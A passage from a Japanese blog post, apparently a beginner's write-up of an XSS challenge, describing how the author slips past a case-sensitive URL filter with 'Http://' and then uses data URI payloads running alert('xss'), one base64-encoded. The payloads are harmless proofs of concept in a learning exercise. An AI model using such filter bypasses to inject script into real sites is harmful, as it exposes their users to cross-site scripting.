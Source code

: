 けど小文字大文字チェックはしてないのでHttp://***とすることで正規表現は回避。

とりあえず試しに自分のサーバに.jsファイルを置いて

<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">#Http://sota1235.net/alert.js</pre>

とやってみる。

するとエラー。どうやら何かしらの制限がかかってて外部のリソースを読み込めない(？)らしい。

どうしたものかーと考えたところでdata URI スキームの存在を思い出す。

ので、alert("xss");をbase64エンコード。

<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">data:text/javascript;base64,YWxlcnQoInhzcyIpOw==</pre>

でもわざわざエンコードしなくてよいことに気づいたのでこれで解決

<pre class="brush: html; gutter: true; first-line: 1; highlight: []; html-script: false">data:,alert(&quot;xss&quot;);</pre>

<br />

## Cake!!

ケーキはアスキーアートのケーキでしたとさ。

しかしなんか型崩れしててりんごにしか見えない。

<a href="http://blog.sota1235.com/wp-content/uploads/2014/07/スクリーンショット-2014-07-27-13.47.43.png"><img src="http://blog.sota1235.com/wp-content/uploads/2014/07/スクリーンショット-2014-07-27-13.47.43.png" alt="スクリーンショット 2014-07-27 13.47.43" width="1424" height="860" class="alignnone size-full wp-image-301" /></a>

<br />

## 感想

初心者なりに楽しみました。

ggったりしながらだけど一応最後まで解けたし満足です。

何か間違いとかあったら[@sota1235](https://twitter.com/sota1235 "@sota1235")までお願いします。

(Write-Up適当でごめんなさい)

---
※この記事は WordPress に投稿した記事を変換したものです。一部不自然な表示があるかも知れません。ご了承ください。また、記事タイトル先頭の * は WordPress から移行した記事である印です。
